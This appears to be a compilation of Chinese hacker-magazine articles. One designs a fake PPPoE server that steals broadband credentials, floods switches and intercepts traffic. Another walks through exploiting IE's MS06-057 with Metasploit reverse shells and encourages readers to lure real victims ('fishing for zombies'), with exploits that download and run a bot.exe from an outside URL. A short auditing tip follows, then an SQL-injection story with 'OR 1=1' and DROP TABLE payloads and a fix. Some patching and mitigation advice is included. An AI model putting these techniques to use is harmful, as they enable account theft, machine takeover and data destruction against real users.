宽带网的老用户肯定都知道，在几年前，我们去 ISP 营业厅开通网络的时候，都会给我们一个 IP 地址、一个网关地址，回家设好地址，插好网线，开机就可以上网了。而现在我们得到的是一个用户名和密码，开机后先拨号，再上网，这就是 PPPoE 拨号。

PPPoE 给网络提供商和用户都带来了很多好处，它的验证功能很好地解决了以前应用中非法用户私接线路上网的问题，也很好地完成了用户管理、流量统计等任务。随着管理水平的提高，用户的计费方式也更加灵活：包月、包时、包流量等计费方式满足了不同用户的需求。然而，在 PPPoE 实施以来，安全问题一直没有得到重视。在某些地区，用户计算机仍旧处于一个快速以太网的环境当中，很容易受到攻击；但 ISP 在保证了经济效益的情况下并没有提供任何措施来保障用户在目前网络环境中的安全。在很多用户看来，账号和密码就代表着安全，其实不然，它们并不会给用户带来额外的保护，它们保证的是 ISP 的效益。

在快速以太网环境（以下简称网络）中，用户计算机……

### PPPoE验证过程

- 1）PPPoE 的验证过程是由用户计算机的 PADI（PPPoE Active Discovery Initiation）数据包开始的，PADI 广播发送，它的作用是询问网络上有没有提供服务的 PPPoE 验证服务器。服务器会以一个单播发送的 PADO（PPPoE Active Discovery Offer）作为回应，之后两者之间的所有数据包都是单播发送的。

- 2）如果网络上存在多台验证服务器，用户计算机会与最先收到的 PADO 所对应的服务器进行后续的验证过程，而不再向其他服务器发送任何数据。  
- 3）验证过程中，计算机会在一个数据包中以明文发送用户名和密码，因为是单播发送，所以只有验证服务器会收到。  
- 4）验证成功后，用户就可以正常上网了。验证服务器会定时向用户发送 Echo-Request 数据包，用户则会回应一个 Echo-Reply 数据包，它们的作用是测试连接是否正常。如果服务器多次没有收到用户的 Echo-Reply，就认为用户已经失去响应，并断开连接。  

### 实验1：用监听软件 Ethereal 捕捉 PPPoE 的验证过程

大家将在这个实验中看到自己的账号。我们先新建一个 PPPoE 账号，用户名 cd_cly，密码 123。打开 PPPoE，并开始用 Ethereal 对相应网卡进行监听，如图2所示，然后用新建的账号进行拨号。当出现如图3所示的错误提示时，停止 Ethereal 的监听，最后查看捕捉到的数据，如图4所示。


图2

大家可以根据 MAC 地址来区分哪些是从我们的机器上发出的数据包，哪些是验证服务器发给我们的数据包。注意那个标记为 Authenticate-Request 的数据包，这个包的最后就明文显示着我们的用户名 cd_cly 和密码 123。这是个拨号失败的验证过程，有兴趣的读者可以用自己的真实账号再实验一次，看看拨号成功的过程是什么样子。细心的读者会发现，服务器仅仅给我们发送了 5 个数据包，我们就将账号发送过去了。我们需要留心的就是这 5 个包。


图3

```text
PPPOE Active Discovery Initiation (PADI)
PPPOE Active Discovery Offer (PADO)
PPPOE Active Discovery Request (PADR)
PPPOE Active Discovery Session-confirmation (PADS)
PPP LCP Configuration Request/Ack
PPP PAP Authenticate-Request
...
```

图4

从这个实验中，我们不仅搞清楚了 PPPoE 的验证过程，而且得到了一个重要数据，那就是 ISP 验证服务器的 MAC 地址。

### 攻击手段及原理详解

从上面的实验中我们可以看到，PPPoE 最大的弱点在于它的第一个 PADI 数据包，因为它是广播包，不仅验证服务器可以收到它，存在于网络上的其他主机也可以收到，这就为假冒服务器攻击提供了条件。假冒服务器是冒充 ISP 的验证服务器来骗取合法用户账号的攻击。它是极具威胁的，因为无论用户使用的是多么优秀的防火墙和杀毒软件，都无法察觉假冒服务器攻击的存在。

这种攻击之所以没有得到重视，一是因为它难以察觉，二是因为它的平台依赖性。只有像 Windows 2000、Windows 2003 和 Linux 服务器系统才容易配置。然而问题在于，并不是没有消除平台依赖性的方法，这种方法就是编程实现假冒服务器攻击，我把它称作 cd_cly Attack（以下简称 CCA）。CCA 程序的功能有：假冒服务、账号记录、攻击强化、监视用户计算机状态、自动拨号和断开、用户验证、数据中转、数据流监视和分析。由于是编程实现，它还可以控制用户拨号失败时得到的错误提示，隐蔽性很高。

CCA 最基本的功能有两个，就是数据包的监听和发送。也就是说，CCA 要建立在监听软件的基础之上。这样，我们就能判断连接请求，并对请求做出响应，以实现假冒服务。

下面大家将看到攻击者是如何利用 CCA 在不引起任何人注意的情况下完成所有攻击的。

#### 1. 账号的窃取

假冒服务器，也就是运行了 CCA 的计算机，透明存在于这个网络当中，以一种守株待兔的方式默默地进行着账号的窃取。如图5所示，用户 A 进行 PPPoE 拨号时，计算机 A 向网络发送了一个 PADI 广播数据包，向验证服务器发出连接请求，ISP 验证服务器和假冒服务器都收到了这个广播包，并单播发送了 PADO 数据包给计算机 A。由于假冒服务器的负载和距离都小于 ISP 验证服务器，假冒服务器的 PADO 数据包将率先到达计算机 A，计算机 A 便与假冒服务器开始了 PPPoE 的验证过程，而不再向 ISP 的服务器发送任何数据。验证过程必将失败，用户 A 得到一个“远程计算机不能及时反映，连接被中止”的提示。这时，攻击者的 CCA 程序已经记录了用户 A 的用户名、密码和计算机的 MAC 地址，并停止假冒服务。用户 A 看清楚错误提示之后，进行重拨，假冒服务已经停止，拨号成功，网络正常。CCA 在一定时间间隔之后，重新开始假冒服务，等待下一个用户拨号。


图5

要注意，此时用户 B 将有可能受到攻击，因为两边距离相等；而用户 C 和 D 很难受到攻击，因为他们会率先收到 ISP 验证服务器的 PADO 数据包，并与其进行正常验证。用户 A 只是会不经意间经历一次拨号错误，也会把原因归结为自己的系统问题或服务商的系统错误，绝对不会想到自己刚受到过一次被动攻击。在 ISP 的日志上，会显示一个用户在发送完 PADI 数据包后就没了音信，ISP 会把原因归结为用户系统突然中断，也不会意识到假冒服务器的存在。

这样，一次盗取账号的过程就悄悄地结束了。攻击者还会利用这种方法得到更多的账号。账号失窃对用户来说非常危险，因为 PPPoE 账号在某些地区可以实现在线支付功能。

这个 IP 地址可能为任何一个内网地址或受限地址，如图6所示；但无论是什么地址，一般都不会变动，并且对拨号没有任何影响。在拨号之后我们会得到另一个公网 IP 地址，上网用的就是这个公网 IP，如图7所示。在这里，公网 IP 对攻击者没有任何用处，他的目标是固定 IP。


#### 2. 对用户的监视

得到账号对攻击者来说仅仅是一个开始，因为一个账号只能建立一个连接。也就是说，如果攻击者随机选择账号进行连接并成功，随后这个账号的用户在连接时将多次得到用户名和密码被拒绝的提示，用户就可以察觉到账号有问题，并询问 ISP，后者就可以将攻击者查找出来。对于这个问题，有人提出过利用分析用户上网日志的方法来避免冲突，然而这样做并不能将冲突概率减小到零。下面我将提出利用 CCA 完全避免冲突的方法。

CCA 的用户监视功能将帮攻击者完成可用账号的选择（此时，假冒服务并未开启）。大家不要忘记，当攻击者接收到用户名和密码时，也同时得到了用户的 MAC 地址。有了 MAC 地址就可以监视用户的计算机状态：开机则账号不可用，关机则账号可用。监视是时刻进行的，如果对应账号的计算机由关机变为开机，CCA 便立刻自动断开网络连接。用户开机后进行拨号连接一切正常，根本不会察觉到有人用过他的账号；CCA 则会帮助攻击者选择另一个未开机的账号进行连接。

那么，攻击者是如何利用 MAC 地址进行监控的呢？原理很简单，就是看是否能收到来自那个 MAC 的数据。其实，只有 MAC 地址是不能进行主动监控的，攻击者只有在收到来自那个地址的广播包时才会得知用户的计算机是开启状态；如果这个包恰恰是 PADI，攻击者即使用 CCA 程序自动与网络断开连接也来不及，就有可能被发现。然而这个网络环境决定了如果知道了一个用户的 MAC 地址，就可以知道他的 IP 地址。这个 IP 地址不是用户建立 PPPoE 后得到的 IP 地址，而是设在网卡上的固定 IP 地址。

由 MAC 地址对应 IP 地址的方法很简单，普通的监听软件就可以完成。存在于网络上的计算机势必会发送 NBNS（NetBIOS Name Server）报文、BROWSER 报文和 ARP（Address Resolution Protocol，地址解析协议）报文，暴露自己的 IP 地址。有了 IP 地址，攻击者对用户的监视就简单多了。ping 命令可以完成任务，但不是最优的选择，原因有两点：一是网络中计算机的 IP 地址是随机的，ping 无法在没有路由的情况下跨网段发送；二是有的防火墙会完全阻止 ping。攻击者会选用 ARP 包，假装询问指定 IP 对应的 MAC 是多少，诱骗目的主机向其返回数据，其实是完成监视。ARP 广播发送，所有主机都会收到，并且偶尔一次的 ARP 包也不会被防火墙阻止。

CCA 完成对用户的监视是非常隐蔽的，我们用图8来说明。假设攻击者已经拥有 A、B、C 和 D 的账号，计算机 B 和 D 处于关闭状态。


CCA 先分别向计算机 A、B、C 和 D 发送一个 ARP 包，开启状态的计算机会做出回应。图8中，计算机 A 和 C 向 CCA 做了回应，CCA 据此判断计算机 B 和 D 关机，账号可用。之后它用账号 B 进行网络连接，并且隔几秒钟就向 B 对应的 IP 发送 ARP 包，而不再向 A、C、D 发送任何数据。计算机 A、C 上的防火墙不会把仅仅一次的 ARP 定为攻击而报警，也不会对发给计算机 B 的 ARP 感兴趣。CCA 收到来自计算机 B 的 ARP 回应的时候，说明 B 正处在开机过程。CCA 断开网络连接，保证攻击者不被发现。重复以上过程，攻击者基本可以做到在任何时间都能用不同账号进行拨号连接。

### 实验二：用 Ethereal 实现网络中 MAC 地址与 IP 地址的对应

这个实验过程比较简单，大家打开 Ethereal 的监听，过 2 分钟后停止，查看数据，如图9所示。


图9

先看前两个数据包，从源地址可以看出，这是典型的受限地址 169.254.*.*。查看下方具体数据，就可以找到与其对应的源 MAC 地址。第三个数据包是 ARP，源 MAC 地址很好找，而与它对应的 IP 地址就在 “Who has...... Tell...” 后面的地址 10.*.*.*。

从实验中可以得出，如果我们掌握了一个 MAC 地址，就可以用这种方法来对应它的 IP 地址。人工做实在是太费精力了，让 CCA 来完成再好不过了。

经过以上的步骤，攻击者已经可以透明存在于网络中并利用他人的账号上网了，但攻击者远没有达到最终的目的，危险的攻击仍在继续。

#### 3. 窃取更多的账号

前文提到过，假冒服务器攻击只有在离用户主机比较近的情况下才能成功，远离的用户不会受到 CCA 的影响。但是，攻击者仍旧有机会得到网络中存在的所有账号，方法有两种。

- 1. **被动方法**：隐蔽性极高，攻击者静等 ISP 验证服务器的故障时间（停电、系统故障等）后启动 CCA 假冒服务。故障恢复前，所有连接账号都可能被记录，且用户通常只会收到系统故障反馈。  
- 2. **主动攻击**：利用 CCA 的强化功能（如 DoS 拒绝服务、MAC 攻击等）制造条件，主动扩大影响范围并获取更多账号。  

DoS 攻击本可成功防范，不会有什么效果，但 MAC 攻击将是致命的。MAC 攻击的目的在于中断 ISP 服务器和用户的连接，并拖慢整个网络，如图10所示。


图10

还记得前面实验1中我们得到的 ISP 服务器的 MAC 地址吗？这里就用上了。攻击者利用任意一种广播包，把源 MAC 地址设置为 ISP 服务器的 MAC 值，然后不停地向网络上发送这个数据包。每秒钟上万的广播包会改变交换机上的 MAC-端口对应表，并在短时间内淹没 ISP 服务器，将网络上所有发往 ISP 服务器的数据流全部引向攻击者的端口。图10中，正在上网的用户 A、C、D 会出现网页打不开、QQ 消息发送失败、网络游戏卡死等情况。

同样，ISP 服务器和用户之间测试连通性的 Echo-Request 和 Echo-Reply 报文也无法正常发送。虽然 ISP 服务器可以成功给用户发送 Echo-Request，并将 MAC-端口改回原状，但瞬间就会被 MAC 攻击改变。用户的 Echo-Reply 就不会被 ISP 服务器接收到，最终导致 ISP 服务器判断用户已失去响应而断开；断开后用户计算机因没有再收到 Echo-Request 而判断服务器失去响应，连接断开。

这时，用户 A、C、D 会得到与服务器断开连接的提示。他们会选择重新拨号，建立网络连接。然而 MAC 攻击没有停止，用户的重拨无法与 ISP 服务器正常连接；并且由于网络缓慢，CCA 将有更大的机会与远端用户（如 C 和 D）进行连接。攻击者在收到几乎所有账号的时候停止攻击，网络随即恢复正常。用户拨号成功的同时，交换机上的 MAC-端口表也恢复为原来的状态。

事后，ISP 可能会从用户的反映中得知曾经有一次集中的网络中断，但原因却很难查清，最后可能归结为某用户中毒导致网络瘫痪。MAC 攻击使攻击者不必等待 ISP 的故障时间，在用户集中上网的时间主动攻击，危害性更大。

#### 4. 监视用户网络数据

攻击者在收集到了足够的账号之后，便开始实施最后也是最危险的攻击：监控所有用户的数据流，得到对他来说有价值的内容。在之前的攻击过程当中，CCA 程序已经将所有账号都记录下来，现在可以用这些信息使合法用户像与 ISP 服务器一样正常通过 CCA 的验证，而攻击者利用一个账号拨号连接到 ISP，并中转用户的数据流。

一旦用户计算机与 CCA 建立了连接，用户的所有网络数据都将发往攻击者的计算机。CCA 在监视数据的同时，替换数据包头，并转发给 ISP 服务器。攻击者的计算机就像一个透明路由器一样存在于用户和 ISP 之间，监视着所有流经的数据流。明文获取和业务流分析都不在话下，任何基于此的高层攻击也都可以进行。

用户上网一切正常就是最好的证明，ISP 也不会察觉到异常。在它看来，攻击者冒充的合法用户正在正常地使用网络，而连接到了攻击者机器上的用户就从来没有与 ISP 的服务器建立连接。攻击者希望监视远离自己的计算机数据流时，将再次利用 MAC 攻击将连接引导过来。就这样，悄无声息地，攻击者利用 PPPoE 完成了 MITM（Man in the Middle，中间人）攻击。

### 防御方法

攻击者可以如此隐蔽地完成所有攻击，依赖于两点：一是以太网的广播网络环境，二是用户与 ISP 之间交换的账号是明文表示的。其实这些问题早在 PPPoE 实施之前就被研究过，并提出了切实可行的解决方案。最佳的方案是 VLAN（Virtual LAN，虚拟局域网）+ PPPoE，每个用户一个 VLAN，这样网络中的广播就被完全阻止了，用户就可以得到绝对的通信安全。可惜的是，因为设备上 VLAN 数目有限，这种绝佳的解决方案到现在也没有被应用。不仅如此，其他保证安全的方案似乎也没有实施过。我查看过众多的方案，让我纳闷的是有一种方案从来没有被提及过，那就是启用 CHAP（Challenge-Handshake Authentication Protocol，挑战—握手协议）验证模式，用户端也需要做相应设置。这样虽然在一个以太网环境中，用户的账号和密码却可以以密文形式发送，并且通过 MD5（Message-Digest Algorithm 5，信息—摘要算法）摘要算法加密。即使网络上仍旧存在假冒的验证服务器，得到了这段密文的攻击者也无法还原用户的账号。

文章到这里就结束了。如果我们再仔细回顾一下便会发现，CCA 并未用到什么高深的理论，假冒服务、ARP、MAC 和 MITM 攻击是局域网中最常用的攻击手段。我们需要做的，只是把它们结合起来而已。


## 快递溢出 IE 新漏洞

适合读者：入侵爱好者  
前置知识：无

终于又到双休日了，周末终于可以好好享受一下一个人的孤单了。打开我可爱的电脑，驱猫上网，想起来好久没有渗透过了，手里也没有肉鸡了，找个漏洞玩玩先……无意中看到了 MS06-055 和 MS06-057 两个漏洞，个人还是对微软的漏洞比较偏爱，因为使用范围比较广。撒网下去的话，姜太公钓肉鸡，愿者上钩的比较多啊！

VML（Vector Markup Language）是一种基于 XML 的矢量图形绘制语言。IE 通过 vgx.dll 提供了对 VML 语言的支持，可以在解析页面中嵌入 VML，显示矢量图。vgx.dll 的 IE5_SHAPETYPE_TEXT::Text 过程在解析 VML 的时候存在缓冲区溢出漏洞，利用这个漏洞可以完全控制用户的系统。

### 漏洞简介

- 1) IE WebViewFolderIcon 远程整数溢出漏洞（MS06-057）。

IE 在处理畸形的 ActiveX 对象调用方式时存在整数溢出漏洞，如果攻击者能够向 WebViewFolderIcon 控件的 setSlice 方法传送 0x7fffffff 参数的话，可能导致浏览器崩溃或执行任意指令。

受此漏洞影响的操作系统有 Windows 2000 SP4、Windows Server 2003/Itanium、Windows Server 2003 SP1/SP1 Itanium、Windows Server 2003 x64 Edition、Windows XP Pro x64 Edition 和 Windows XP SP1/SP2。

- 2) IE 畸形 VML 文档处理缓冲区溢出漏洞（MS06-055）。

受此漏洞影响的操作系统有 IE 6.0 SP1、IE 5.01 SP4、Windows XP SP1/SP2、Windows XP Professional x64 Edition、Windows Server 2003 x64 Edition 和 Windows Server 2003 SP1。

### 漏洞利用

工欲善其事，必先利其器。这里我们选用 Metasploit Framework 来进行渗透测试。当然，如果你有商业版的 Core Impact 或者 Canvas 也好，可惜我口袋里没有 Money（Core Impact 要数万美元，够我买套房子的了），看着它们只有流口水的份了。

相信常看《黑防》的读者对 Metasploit Framework 都会很熟悉。它是一个缓冲区溢出测试与使用的辅助工具，也可以说是一个漏洞利用和测试平台，集成了各平台上常见的溢出漏洞和流行的 Shellcode 和 Exploits，并且不断更新和做漏洞挖掘。比如我们下面要讲的 IE WebViewFolderIcon 远程整数溢出漏洞就是由他们挖掘出来的，也正是由于他们的努力，让我们进行缓冲区溢出测试变得更加方便和简单。

在 www.metasploit.com 可以下载到最新的版本和更新模块。本文使用的是 Metasploit Framework 2.6 版本。要注意的是，从网上下载到的 Metasploit Framework 2.6 不包含最新的 Exploits，必须在安装后从开始菜单手动运行 MSFUpdate，把数据库升级到最新就 OK 了。下面再说一下在命令行下的使用一般步骤。

- 1. 选定使用的漏洞，命令为：`use <exploit_name>`
- 2. 设定漏洞利用环境，TARGET 为目标机器对应的操作系统类型，RHOST 为目标主机 IP，RPORT 为目标主机端口。
- 3. 选择 shellcode，命令为：`set PAYLOAD <payload_name>`
- 4. 检查环境设置，命令为：`set`
- 5. 进行溢出测试，命令为：`exploit`

```text
set TARGET <idno>
set RHOST <host_ip>
set RPORT <host_port>
```

废话了这么长时间，现在我们来渗透。由于这两个漏洞的利用方式几乎完全相同，我们就以 IE WebViewFolderIcon 远程整数溢出漏洞（MS06-057）为例。至于 MS06-055，大家可以自己练手了！

我们的测试环境是 VMWare WorkStation 5.5.2 build-29772 + Windows XP Professional 简体中文版 SP2，虚拟机的 IP 地址为 192.168.178.128，本机 IP 地址为 192.168.178.1。如果溢出成功，使用 ShellCode 反向连接至本机的 8000 端口。

我们先用“show exploits”命令显示当前可用的所有 Exploits，如图1所示。可以看到 06-057 的 exploit 名称是 `ie_webview_setslice`。根据上面所说的步骤，选中要使用的 Exploit：`use ie_webview_setslice`，再用命令“show options”显示能够修改的选项，如图2所示。设置 HTTP 主机：`set HTTPHOST 192.168.178.1`；设置 HTTP 端口：`set HTTPPORT 80`。


也许会有读者问，这里的 HTTPHOST 代表什么呢？我们本文利用的两个漏洞都需要客户端，理所当然需要架设一个 HTTP 服务端提供 Web 服务，然后让别人访问打开我们构造的页面。因此 HTTPHOST 就代表着 Web 的 IP 地址。如果你运行了 IIS 或者 Apache 等 Web Server，HTTPPORT 就不要选择 80 端口，否则可能会造成端口冲突。


接下来再使用命令“show payloads”显示所有可用的 payload（也就是溢出后行为），如图3所示。这里我们设置 payload 为反向连接的 ShellCode，命令为 `set payload win32_reverse`。由于新增了 payload，所以 options 也会有相对应的改变。再一次使用显示选项 `show options`，从图4中可以看到 options 中增加了 payload 所对应的选项。设置 LHOST，也就是反向连接所要连接到的 IP 地址：`set LHOST 192.168.178.1`；设置反向连接的端口：`set LPORT 8000`。


最后，我们可以再显示一下所有的选项，确认所标记为 required 的选项都已经配置完毕，然后就可以输入最后一个命令：`exploit`，如图5所示。Metasploit Framework 正在监听 192.168.178.1 的 80 端口，等待客户端连接。之后，我们就可以做测试；或者如果你有公网 IP 的话，就可以上网去钓鱼了。在测试电脑上，或者让其他人打开 `http://192.168.178.1`，也就是打开你所设置的地址，如图6所示，可以看到反向连接过来的命令提示符。到此为止，利用 Metasploit Framework 进行溢出就结束了。

图5

图6

来了。也许大家要问，要是想渗透别人，我没有肉鸡，也没有公网 IP，怎么才能让别人访问我的 Exploit 呢？即使我有公网 IP 地址，我总不能钓一个就重新来一次吧？那也太麻烦了点吧？

下面我们就再提供两个 Exploit（已收录入本期光盘），分别用 C 和 Perl 编写的，看个人爱好，喜欢哪个就用哪个。如果用 C 语言版的 Exploit，用 Visual C++ 6.0 直接执行 `cl 06057.c` 就 OK 了。如果比较喜欢图形界面，可以新建一个空的 Win32 Console Application，再新建一个文件（新建的文件后缀名称一定要是 `.c`，不能是 `cpp`。这涉及到 C 和 C++ 编程的范围，不在我们讨论的范畴，大家可以自己下去探讨）；注意要添加到工程中，直接编译就可以了。

编译后运行：

```txt
C:\>06057
Microsoft Internet Explorer WebViewFolderIcon
(setSlice) Exploit (0day)
Code by LukeHack
Usage: 06057 <URL> [htmlfile]
```

其中的 URL 就是溢出后要下载并执行的程序，htmlfile 是要生成的 HTML 文件名称。生成后可以找个 Web 服务器，或者自己用 IIS 架设网站，就可以出去钓鱼啦。

第二个 Exploit 是用 Perl 语言编写的，所生成的 HTML 文件的功能是进行溢出后下载可执行文件并执行，可执行文件的 URL 可修改。打开 `06057.pl` 文件，把 `http://dedicated.com/bot.exe` 修改成你所希望的 URL，然后执行，生成 HTML 文件，再接下来就和 C 语言的一样了。这个 Exploit 我并未测试，大家感兴趣的话可以自己去测试。

现在是不是终于明白为什么自己的电脑平时也没干什么，更没有随便运行什么软件，却不知不觉中毒了呢？这两个漏洞微软已经发布了补丁，可以通过 Windows Update 在线更新，或者直接下载相对应的补丁。如果不能上网（不能上网还打补丁干吗？），针对 MS06-057 的临时解决办法就是禁用 WebViewFolderIcon ActiveX 控件，为以下 CLSID 设置 kill bit 来禁用 WebViewFolderIcon 控件：`{844F4806-E8A8-11D2-9652-00C04FC30871}`。针对 MS06-055 的临时解决办法很多，我一一列举在下面，可以选你认为简单的方法就好了。

- 1. 解除 `vgx.dll` 的注册  
  - 点击“开始->运行”，在其中输入下面的命令：  
  - `regsvr32 -u %ProgramFiles%\Common Files\Microsoft Shared\VGX\vgx.dll`  
  - 然后点击“确定”，在随后出现的弹出窗口中点击“确定”按钮。  
  - 如果打上补丁后，想恢复注册，只需再用上述方法运行下面的命令即可：  
  - `regsvr32 %ProgramFiles%\Common Files\Microsoft Shared\VGX\vgx.dll`
- 2. 修改访问控制列表，限制用户对 `vgx.dll` 访问。
- 3. 配置 Windows XP SP2 上的 IE6 在 Internet 和本地 Intranet 安全区中禁用“二进制和脚本行为”（工具->Internet 选项->安全->自定义级别）。

## 用组策略跟踪用户访问共享目录行为

为了防止心术不正的用户在对共享目录的访问过程中，做出对共享目录不利的事情，我们最好能想办法跟踪任何一位访问目标共享目录的用户，并对他们的访问行踪进行记录。以后要是遇到共享目录中的隐私信息被删除或转移时，我们只要查看相应的安全日志，就能轻松找到“罪魁祸首”。通过下面的步骤，我们就能轻松跟踪用户访问共享目录行为了。

首先打开系统的资源管理器窗口，找到需要保护的目标共享目录，然后用鼠标右键单击，从随后弹出的快捷菜单中执行“属性”命令，进入到目标共享目录的属性设置界面；单击该界面中的“安全”标签，并在对应的标签页面中单击“高级”按钮，打开目标共享目录的高级安全设置窗口；在该窗口中单击“审核”标签，再单击对应标签页面中的“添加”按钮。过一会儿，系统将自动显示出所有用户账号，此时我们可以将有权访问该共享目录的用户账号选中，再单击一下“确定”按钮；在其后弹出的审核项目设置窗口中，我们可以按需选择一些失败和成功的审核项目，最后单击“确定”按钮退出共享目录属性设置窗口。

下面再次单击“开始->运行”命令，在弹出的系统运行对话框中，输入组策略编辑命令 `gpedit.msc`，单击“确定”按钮后，进入到系统的组策略编辑界面。用鼠标逐一展开该界面左侧区域中的“计算机配置->Windows 设置->安全设置->本地策略->审核策略”，在对应“审核策略”的右侧窗口区域中，找到“审核对象访问”选项，然后用鼠标左键双击该项，弹出对应该选项的属性设置窗口。选中该窗口中的“成功”和“失败”选项，再单击一下“确定”按钮。以后我们一旦发现目标共享目录遇到什么安全问题时，就可以打开系统的安全日志，来查看事件 ID 标号为 564、562、560 的相关日志记录了，从中就能找到破坏目标共享目录安全的“蛛丝马迹”了。

脚本小子：国内很早就有人研究 .NET 安全了。从以前的 ASP.NET 暴库技术（见 04 年《黑防》）到最近的 Lake2 后门，但是相关的高质量攻防文章就比较少。这篇文章写的就是一个用 C# 语言编写的站点的攻入侵经过，入侵方式虽然一般，但作者的见解是专业的，有可取性。

- 适合读者：C# 程序员，入侵爱好者
- 前置知识：SQL 注入

## C# 站点攻防战

文 单挑王子

前天下午刚刚回家，打开电脑刚想过两把 Wow 瘾，QQ 头像就在不断地狂闪，原来是死党的“求救”消息。事情还得从头说起，两年前死党搞了一个网站，在经过一番苦心经营之下，网站现在也算不错。可谁知近日网站被人换了首页，被改得乱七八糟。我看过之后，感受只有一个字“惨”！程序是死党自己写的，用的是 .NET，经过对网站一番“测试”之后发现罪魁祸首是出在程序代码上。死党的网站其实在其他方面做得都还算不错，之所以被黑，都要“归功”于他的登录页面程序对特殊字符过滤不严，其实根本没有过滤。下面是登录页面的代码：

```aspx
<%@ Import NameSpace="System.Data.SqlClient" %>
<html>
<body>
<h1>Please Log In</h1>
<hr>
<form runat="server">
<table cellpadding="8">
<tr><td>User Name:</td><td><asp:TextBox ID="UserName" RunAt="server"/></td></tr>
<tr><td>Password:</td><td><asp:TextBox ID="Password" TextMode="Password" RunAt="server"/></td></tr>
<tr><td><asp:Button Text="Log In" OnClick="OnLogin" RunAt="server"/></td><td></td></tr>
</table>
</form>
<hr>
<h3><asp:Label ID="Output" RunAt="server"/></h3>
</body>
</html>
```

```csharp
<script language="C#" runat="server">
void OnLogin(Object sender, EventArgs e) {
  if (Authenticate(UserName.Text, Password.Text))
    Output.Text = "Welcome," + UserName.Text + "!";
  else
    Output.Text = "Please Do It Again";
}

bool Authenticate(string username, string password) {
  SqlConnection connection = new SqlConnection("server=localhost;database=weblogin;uid=sa");
  try {
    connection.Open();
    string cmdtext = String.Format("select count(*) from users where username=''{0}'' and cast(password as varbinary)=cast(''{1}'' as varbinary)", username, password);
    SqlCommand command = new SqlCommand(cmdtext, connection);
    int count = (int)command.ExecuteScalar();
    return (count > 0);
  } finally {
    connection.Close();
  }
}
</script>
```

从这段代码中我们可以看出网站使用的数据库是 SQL Server，数据库名称是“WebLogin”，生成数据库的代码如下：

```sql
CREATE DATABASE WebLogin
GO
USE WebLogin
CREATE TABLE [User] (UserName varchar(32) NOT NULL, Password varchar(32) NOT NULL)
GO
INSERT INTO users (UserName,Password) VALUES ('dantiaowangzi','15959515')
INSERT INTO users (UserName,Password) VALUES ('qwe','zxcvbn')
GO
```

从代码中我们可以看出数据库中包含一个“User”表用于保存 username/password 对，其中对于用户输入凭证是否有效是通过对“Users”表执行命令 `SELECT COUNT(*)` 来验证的。其实，这段代码对于攻击者来说完全是敞开的。如果我们以用户名 `dantiaowangzi`、密码 `15959515` 登录，则会进行如下查询：

```sql
SELECT COUNT(*)
WHERE UserName='dantiaowangzi' AND CAST(Password AS VARBINARY)=CAST('15959515' AS VARBINARY)
```

在这次查询中，如果在表 `Users` 中存在匹配的 `username/password` 对，就返回 1，否则返回 0。成功就进入 Welcome 页面，否则看到 `Please Do It Again`。

当输入 `" OR 1=1 --` 时，登录页会对数据库执行如下查询：

```sql
SELECT COUNT(*) WHERE UserName='" OR 1=1 --' AND CAST(Password AS VARBINARY)=CAST('' AS VARBINARY)
```

由于布尔表达式中 `1=1` 为真，再加上注释符 `--` 使后续语句失效，导致可绕过认证并登录后台。

```sql
SELECT COUNT(*) WHERE UserName='" OR 1=1--;DROP TABLE USERS--' AND CAST(Password AS VARBINARY)=CAST('' AS VARBINARY)
```

几行代码就可能把 `Users` 表删掉。根本原因包括：未做特殊字符过滤、数据库访问权限过高，以及开发者安全意识薄弱。

下面是修补后的代码：

```aspx
<%@ Import NameSpace="System.Data" %>
<%@ Import NameSpace="System.Data.SqlClient" %>
<html>
<body>
<h1>Please Log In</h1>
<hr>
<form runat="server">
<table cellpadding="8">
<tr>
<td>User Name:</td>
<td>
<asp:TextBox ID="UserName" RunAt="server"/>
</td>
<td>
<asp:RequiredFieldValidator ControlToValidate="UserName"
ErrorMessage="Please enter a user name!"
Display="dynamic"
RunAt="server"/>
<asp:RegularExpressionValidator ControlToValidate="UserName"
ValidationExpression="[a-zA-Z0-9]*"
ErrorMessage="Invalid user name!"
Display="dynamic"
RunAt="server"/>
</td>
</tr>
```

代码中使用了 `RegularExpressionValidator` 对用户名进行过滤：若包含数字和英文字母以外字符将不通过，因此 `" OR 1=1 --` 会被拦截。

```aspx
<tr>
<td>Password:</td>
<td>
<asp:TextBox ID="Password" TextMode="Password" RunAt="server"/>
</td>
<td>
<asp:RequiredFieldValidator ControlToValidate="Password"
ErrorMessage="Please enter a password!"
Display="dynamic"
RunAt="server"/>
<asp:RegularExpressionValidator ControlToValidate="Password"
ValidationExpression="[a-zA-Z0-9]{8,}"
ErrorMessage="Invalid password!"
Display="dynamic"
RunAt="server"/>
</td>
</tr>
<tr>
<td>
<asp:Button Text="Log In" OnClick="OnLogin" RunAt="server"/>
</td>
<td></td>
</tr>
</table>
</form>
<hr>
<h3><asp:Label ID="Output" RunAt="server"/></h3>
</body>
</html>
<script language="C#" runat="server">
void OnLogin(Object sender, EventArgs e) {
    if (Authenticate(UserName.Text, Password.Text))
        Output.Text = "Welcome," + UserName.Text + "!";
    else
        Output.Text = "Please Do It Again";
}

bool Authenticate(string username, string password) {
    if (!Page.IsValid) return false;
    SqlConnection connection = new SqlConnection("server=localhost;database=weblogin;uid=safeuser;pwd=safeuser");
    try {
        connection.Open();
        SqlCommand command = new SqlCommand("proc_IsUserValid", connection);
        command.CommandType = CommandType.StoredProcedure;
        command.Parameters.Add("@UserName", username);
        command.Parameters.Add("@Password", password);
        int count = (int)command.ExecuteScalar();
        return (count > 0);
    } finally {
        connection.Close();
    }
}
</script>
```

光上面的这些修补还不够，我们还要对其生成数据库的代码进行修改，修改过后的代码如下：

```sql
CREATE DATABASE WebLogin
GO
USE WebLogin
GO
CREATE TABLE [User] (UserName varchar(32) NOT NULL, Password varchar(32) NOT NULL)
GO
INSERT INTO users (UserName,Password) VALUES ('dantiaowangzi','15959515')
INSERT INTO users (UserName,Password) VALUES ('qwe','zxcvbn')
GO
CREATE PROCEDURE proc_IsUserValid
@UserName Varchar(32), @Password Varchar(32)
AS SELECT COUNT(*) FROM Users
WHERE UserName=@UserName AND CAST(Password AS VarBinary)=CAST(@Password AS VarBinary)
GO
EXEC sp_addlogin 'SafeUser','safeuser','WebLogin'
GO
EXEC sp_grantdbaccess 'SafeUser'
GO
GRANT EXECUTE ON proc_IsUserValid TO SafeUser
GO
```

在经过两个小时的忙碌之后可以松口气了，死党僵硬了的面孔也有了生机。其实，这篇文章并没有多高的技术含量，写出来的主要目的是为了给那些安全意识单薄和根本就没有安全意识的朋友们一个提醒，“安全无处不在”。

